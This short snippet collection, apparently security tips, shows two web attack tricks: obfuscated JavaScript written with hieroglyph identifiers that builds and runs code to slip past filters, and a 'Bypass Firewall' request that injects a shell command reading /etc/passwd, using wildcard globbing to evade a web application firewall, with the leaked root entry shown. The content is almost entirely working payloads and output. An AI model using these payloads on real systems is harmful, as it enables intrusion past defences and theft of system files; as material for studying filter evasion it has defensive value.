 # JS hieroglyphs / Source https://aem1k.com/aurebesh.js

```
𓅂='',𓂀=!𓅂+𓅂,𓁄=!𓂀+𓅂,𓊎=𓅂+{},𓆣=𓂀[𓅂++],𓊝=𓂀[𓇎=𓅂],𓏢=++𓇎+𓅂,𓆗=𓊎[𓇎+𓏢],𓂀[𓆗+=𓊎[𓅂]+(𓂀.𓁄+𓊎)[𓅂]+𓁄[𓏢]+𓆣+𓊝+𓂀[𓇎]+𓆗+𓆣+𓊎[𓅂]+𓊝][𓆗](𓁄[𓅂]+𓁄[𓇎]+𓂀[𓏢]+𓊝+𓆣+"(𓅂)")()
```

## Bypass Firewall / From @sec715

```
GET /?cc=cat+/etc/passwd

403 Forbidden

GET /?cc=/???/??t+/???/??ss??

200
root:x:0:0:root...
```